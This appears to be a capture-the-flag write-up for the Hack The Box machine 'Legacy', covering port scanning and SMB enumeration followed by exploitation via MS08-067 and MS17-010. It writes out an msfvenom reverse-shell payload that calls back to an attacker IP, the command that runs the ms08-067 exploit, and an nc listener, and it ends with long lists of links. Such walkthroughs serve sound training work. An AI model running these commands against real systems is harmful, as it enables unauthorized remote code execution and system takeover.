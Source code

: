 # Legacy 

**Links:** [1](https://www.hackthebox.com/machines/Legacy)  [2](https://app.hackthebox.com/machines/Legacy)

**Machine ip:** 10.10.10.4

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0a9f2486-def8-4367-a7c3-52d48f4ae128)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.4 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.4 --open

sudo nmap -Pn -n -sV -sC -sU -O -p$ports 10.10.10.4 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f9fb11ab-3893-4b05-9445-a3025431d537)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/56aa3613-f795-4f39-ae91-c937740f5ff4)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3b75c385-baa0-4aae-b31d-fae7e20d48c1)

+ Check **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323.


## Enumeration
```
ls -l /usr/share/nmap/scripts/smb* | grep vuln

nmap --script smb-vuln* -p 139,445 10.10.10.4
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4ec1a7b-5542-4821-88b7-9220180785e1)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2008-4250 (ms08-067) / Conficker](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-08-067)
+ Download python exploit from **ms08-067: CVE-2008-4250** [1](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) [2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
+ Take this shellcode into the script, and replace it with the default.
+ Update the shellcode in the exploit with our own. Copy the shellcode from **shellcode.txt** and overwrite the payload in the exploit.

```
# On the kali attack vm:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows -o shellcode.txt

python ms08-067.py 10.10.10.4 6 445

nc -lnvp 4444

# On the target machine:
cd Documents and Settings\john\Desktop

type user.txt

cd C:\Documents and Settings\Administrator\Desktop

type root.txt

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78dea999-1856-426b-afe3-69aad9bab9de)

+ Transfer **whoami.exe** from **/usr/share/windows-binaries/** using **smbserver.py** since XP doesn't have a whoami binary or command.
+ Check if get the NT AUTHORITY\SYSTEM level access.

```
# On the kali attack vm:
smbserver.py win /usr/share/windows-binaries/

# On the target machine:
\\10.10.14.24\win\whoami.exe
```

+ Get both user and root flags.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/168b61ac-c71d-4f60-8568-a9e1223f669a)


### Method 2: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit#d6e0) [2](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)
+ Try [1](https://github.com/helviojunior/MS17-010) [2](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py)
+ The exploit didn't work on me due to the below impacket errors:
  + [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
  + [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ **Alternatively**, [3](https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143)  [4](https://github.com/worawit/MS17-010)


### Method 3: CVE-2008-4250 (ms08-067) / Conficker -> Metasploit Solution
+ **windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50


### Method 4: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers -> Metasploit Solution
+ **exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
  + https://slv3rfx.com/posts/htb-legacy-writeup/


# References & Alternatives
+ https://vvmlist.github.io/#legacy
+ **ms08-067 / ms17-010:** https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
  + https://systemweakness.com/oscp-preparation-hack-the-box-2-legacy-557dc3f0e384
+ **ms17-010:** https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit
  + https://medium.com/@toneemarqus/legacy-hackthebox-walkthrough-2023-tonee-55189d9f6035
+ **metasploit exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://slv3rfx.com/posts/htb-legacy-writeup/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
+ **ms08-067:** https://benheater.com/hackthebox-legacy/
+ **metasploit windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50
  + https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/
  + https://www.hackingarticles.in/hack-the-box-challenge-legacy-walkthrough/


## CVE Scripting
+ **CVE-2008-4250 (ms08-067) / Conficker:** https://www.exploit-db.com/exploits/40279
    + https://nvd.nist.gov/vuln/detail/cve-2008-4250
    + https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067
    + https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  + https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
  + https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
+ **CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers:** https://www.exploit-db.com/exploits/43970
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010


## Tools
+ **windows-binaries / whoami.exe:** /usr/share/windows-binaries
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami
+ **smbserver.py:** /usr/share/doc/python3-impacket/examples/smbserver.py
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)


## For More
+ **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323
